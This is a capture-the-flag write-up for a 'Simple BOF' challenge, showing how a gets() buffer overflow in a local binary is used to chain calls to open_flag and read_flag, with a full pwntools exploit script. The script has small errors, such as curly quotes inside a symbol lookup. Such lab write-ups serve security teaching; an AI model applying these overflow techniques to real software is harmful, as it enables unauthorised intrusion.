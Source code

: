 # Simple BOF

The binary provided for the challenge awaits an input. An input of equal or greater than 24 bytes leads to a segmentation fault.


![Inline](../images/bof_1.png?raw=true)


The code provided in the C file is a little different. The buffer is 16 bytes in the code but GDB informs us that the source file is more recent than the binary.

![Inline](../images/bof_2.png?raw=true)


Looking at the C file, we find two convenient functions __open_flag__ and __read_flag__ that can help us display the flag.


Furthermore, the vulnerable function uses **gets** for the user input. We can exploit it to overflow the buffer.


## ROP CHAIN
There are two ways we can read the binary addresses of two functions.
In GDB we can execute

`info symbol <function name>`

or we can use context.binary we extracted from our ELF by calling 

`e.symbols[“<function name>”]` 



## PAYLOAD
Finally, we load everything we are going to send as our payload by concatinating 24 (0x18) of data to for the buffer followed by 4 (0x4) bytes of data to overwrite ebp and the binary addresses of the functions.


```python
# Offsets
buf2ebp = 0x18
#functions
open_flag = e.symbols[“open_flag”]
read_flag = e.symbols['read_flag']

payload = ''
# Buffer Size + Saved EBP
payload += cyclic(buf2ebp+4)
payload += p32(open_flag)
payload += p32(read_flag)
```

## FINAL EXPLOIT
The full exploit code turns out to be:

```python
from pwn import *
# Our target
target = './simple-bof'
e = context.binary = ELF(target,checksec=True)
context.log_level='debug'
io = process(target)

# Offsets
buf2ebp = 0x18
#functions
open_flag = e.symbols[“open_flag”]
read_flag = e.symbols['read_flag']

payload = ''
# Buffer Size + Saved EBP
payload += cyclic(buf2ebp+4)
payload += p32(open_flag)
payload += p32(read_flag)
io.sendline(payload)
io.recvline()

io.close
```